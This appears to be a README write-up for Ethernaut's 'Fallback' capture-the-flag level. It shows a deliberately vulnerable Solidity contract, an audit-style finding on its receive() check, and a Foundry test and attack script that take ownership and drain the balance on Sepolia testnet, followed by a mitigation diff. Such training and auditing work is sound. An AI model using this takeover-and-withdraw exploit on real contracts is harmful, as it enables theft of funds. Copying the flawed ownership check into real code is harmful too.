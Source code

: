# Level 1: Fallback

**Level Page**: [See on Ethernaut](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)

**Description**:

Look carefully at the contract's code below.

You will beat this level if

you claim ownership of the contract
you reduce its balance to 0
  Things that might help

How to send ether when interacting with an ABI
How to send ether outside of the ABI
Converting to and from wei/ether units (see `help()` command)
Fallback methods


**Code**:

The smart contract to be exploited:

<details>
<summary>See Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

</details>

# Findings

### [H-1] Weak comparison can lead to an attack that loses ownership and reduces all contract balances cheaply

**Description**: The comparison `msg.value > 0 && contributions[msg.sender] > 0` in `Fallback::receive` function should not compare only if the contribution is greater than zero, this leads a malicious address to send an ETH contribution using `Fallback::contribute` function and send ETH directly to the contract right after. Then the malicious address can claim ownership by just sending `1 wei`, for example, since the `msg.value` is greater than zero and the `contributions[msg.sender]` is too. After claiming the ownership the address can execute the `Fallback::withdraw` function and steal all the contract balances.

**Impact**: Any strange address could claim the ownership and therefore, steal all the contract balances using the `Fallback::withdraw` function.

**Proof of Code**:

See the complete code in `test/FallbackAttack.t.sol`.

<details>

<summary>See Code</summary>

```javascript
  function testShouldStealContractBalance() public{
    address contribuitor1 = vm.addr(1);
    address contribuitor2 = vm.addr(2);
    vm.deal(contribuitor1, 1e18);
    vm.deal(contribuitor2, 1e18);

    vm.prank(contribuitor1);
    fallbackContract.contribute{value: 100 wei}();

    vm.prank(contribuitor2);
    fallbackContract.contribute{value: 100 wei}();

    assertEq(address(fallbackContract).balance, 200);

    // attack
    vm.startPrank(attacker);

    // Contributing
    fallbackContract.contribute{value: 1}();
    
    // Sending eth
    (bool success,) = payable(address(fallbackContract)).call{value: 1}("");
    if(!success) revert();

    // Withdrawing all eth
    fallbackContract.withdraw();

    vm.stopPrank();

    assertEq(fallbackContract.owner(), attacker);
    assertEq(address(attacker).balance, INITIAL_BALANCE + 200);
    assertEq(address(fallbackContract).balance, 0);
  }
```

</details>

**Recommended Mitigation**: The mitigation depends on the project requirements. But here are some ways we could fix this issue:

1. Remove the `Fallback::receive` function and only allow users to contribute through `Fallback::contribute` function.
2. Update the `Fallback::receive` comparison to `msg.value > 0 && contributions[msg.sender] > contributions[owner]`. This would ensure that the ownership is only changed if the user contribution is greater than the last owner. This would be like:

```diff
receive() external payable {
-   require(msg.value > 0 && contributions[msg.sender] > 0);
+   require(msg.value > 0 && contributions[msg.sender] > contributions[owner]);
    owner = msg.sender;
}
```

# Attack

**Description**: The attack used the strategy tested in `FallbackAttack.t.sol`, so we just need to build a script as `FallbackAttack.s.sol` that implements this strategy and sends to the chain.

Code snippet:

```javascript
  // Contributing
  fallbackContract.contribute{value: 1 wei}();

  // Sending eth
  (bool success,) = payable(address(fallbackContract)).call{value: 1 wei}("");
  if(!success) revert();

  // Withdrawing all eth
  fallbackContract.withdraw();
```

**Instance used**: [0x836c5bc2ac19240bAD8c3d2fB56F36D355A56B25](https://sepolia.etherscan.io/address/0x836c5bc2ac19240bAD8c3d2fB56F36D355A56B25)

**Attack Transactions**: [see on etherscan](https://sepolia.etherscan.io/address/0x836c5bc2ac19240bAD8c3d2fB56F36D355A56B25)

**Level Completed Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0xc28ef761dac3c5bd93ab5c5bc036953d70fbe1081430537b5f2b0313d08ad208)

# Getting started

## Build

```bash
make build
```

## Test

```bash
make test
```

## Attack (testnet)

```bash
make attack
```

## Submit level (testnet)

```bash
make submit
```

## Check if you completed the level (testnet)

`true` - You completed the level
`false` - You didn't complete the level

```bash
make check
```